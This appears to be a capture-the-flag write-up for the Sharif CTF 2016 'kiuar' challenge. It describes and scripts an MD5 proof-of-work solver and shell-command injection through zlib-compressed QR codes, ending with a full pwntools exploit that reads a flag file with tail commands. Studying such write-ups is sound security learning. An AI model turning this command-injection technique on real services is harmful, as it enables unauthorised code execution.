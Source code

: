 ```yaml
---
layout: post
title:  "Sharif University CTF 2016: kiuar (pwn 200)"
author: skogler
categories: writeup
---
```


* **Category:** pwn
* **Points:** 200
* **Description:**

> telnet ctf.sharif.edu 12432
> Trying 213.233.175.130...
> Connected to ctf.sharif.edu.
> Escape character is '^]'.
> Welcome to Sharif blackbox challenge :)
> Proof of work: Are you ready?
> Give me a 32-bit hex integer, whose leftmost 22 bits of its MD5 is 1000001010110000011101.
> You have 60 seconds to reply.

## Write-up

When connecting to the given server address, it would present us with the above
task. The challenge was to compute the MD5 of a 32-bit integer so that the
leftmost 22 bit of the MD5 would match the given value. The bits to match
changed every time a new connection is established, but the length was fixed.
The server would also reject any input with less than 5 characters.

This seemed quite easy at first, but the server would not accept my computed
values. Thankfully, my colleage did interpret the task differently; he found
out that we needed to compute the MD5 of the *hex string representation* of the
32-bit integer, so something like this:

```python
result_md5 = hashlib.md5(hex(i))
```

This finally worked, which brought us the next step of the challenge. We got
these bytes from the server:

```
00000000  78 9c 0b 4e  cd 4b 51 a8  cc 2f 2d 52  08 0c 52 48  │x··N│·KQ·│·/-R│··RH│
00000010  ce 4f 49 b5  e2 8a cc 2f  55 c8 48 2c  4b 55 30 34  │·OI·│···/│U·H,│KU04│
00000020  50 28 4e 4d  ce cf 4b 29  56 28 c9 57  28 4a 2d c8  │P(NM│··K)│V(·W│(J-·│
00000030  a9 d4 e3 02  00 9b f3 10  54                        │····│····│T│
```

We saved this to a file and ran the ```file``` tool on it:

```
result: zlib compressed data
```

Nice, so just run ```zlib.decompress``` on it in python:

```
Send your QR code:
You have 10 seconds to reply.
```

It seemed we could send some data hidden within a QR code. However, sending
this code was not quite easy. The first problem was that the server would only
accept messages compressed with zlib:


```
Your data is not in proper compressed format :(
```

This was solved by compressing the message using zlib. However, we also needed
to get a message of exactly 200 bytes, since the server would reject everything
else. To solve this, we compressed the payload first, then padded the message
with zero bytes so it had a  length of exactly 200.

The hard part was getting a QR code with a size smaller than 200 bytes. It
seems the typical tools to generate QR codes do not optimize for size at all.
After a long time of trial and error, we ended up with the following command to
generate the PNG QR code:

```
qrencode -s 1 -v 1 -m 1 -o test.png "<payload>" && optipng test.png
```

If the length of the payload was not too long (I think about 10 bytes), this
would suffice.  It also took us quite a while to find out that the server would
only recognize the QR code if it had a margin of at least 1 pixels.

When finally succeeded, we found out that we could send shell commands inside the QR code.
There was a file called flag in the server's working directory, which we needed to read:

```
Flag: The output of your command is large, I only send 18 bytes of it :P 
    SharifCTF{b5ffb0e6
```

Since the organizers did not allow us to just cat the file, we needed to run
the script multiple times and inject tail commands with different offsets to
reconstruct the flag manually.

Finally, here is the script we used to get the flag:

```python
#!/usr/bin/env python2
# -*- coding: utf-8 -*-

import ctypes
import struct
import hashlib
import sys
import zlib
import os
from pwn import *

context.log_level = 'info'


commands = [
        "tail -c 18 flag",
        "tail -c 36 flag",
        "tail -c 54 flag",
        ]

results = list()

for command in commands:
    os.system('qrencode -s 1 -v 1 -m 1 -o test.png "' + command + '" && optipng test.png')
    zcode = ""

    with open('test.png') as qrfile:
        qrbytes = qrfile.read()
        zcode = zlib.compress(qrbytes)
        print("len: {}".format(len(zcode)))
        zcode = zcode.ljust(200, '\x00')
        print("len: {}".format(len(zcode)))
        if len(zcode) > 200:
            sys.exit()

    conn = remote('ctf.sharif.edu', 12432)
    conn.recvline()
    conn.recvline()
    challenge = conn.recvline()

    data = ctypes.create_string_buffer(4)
    m = hashlib.md5()

    target_bits = challenge.split(" ")[-1][:-2]
    #target_bits = target_bits.ljust(32, '0')
    #target_mask = int(target_bits, 2)
    #print("mask {}".format(bin(target_mask)))

    conn.clean_and_log()

    lower_bound = 0x100000
    upper_bound = 2**32

    for i in xrange(lower_bound, upper_bound):
        integer_hex         = hex(i)
        integer_hex_encoded = integer_hex.encode('utf-8')
        integer_hex_md5 = hashlib.md5()
        integer_hex_md5.update(integer_hex_encoded)

        md5 = integer_hex_md5.hexdigest()

        binary = bin(int(md5, 16))[2:]

        if binary.startswith(target_bits):
            #print("Hash {}".format(md5))
            conn.send(hex(i))
            break

    conn.recvline()
    result = conn.recv()

    with open('test.png') as qrfile:
        qrbytes = qrfile.read()
        zcode = zlib.compress(qrbytes)

        zcode = zcode.ljust(200, '\x00')
        conn.send(zcode)

    conn.recvline()
    res = conn.recv()
    log.info(res)

    results.append(res)

    conn.close()

log.info(",\n".join(results))
```

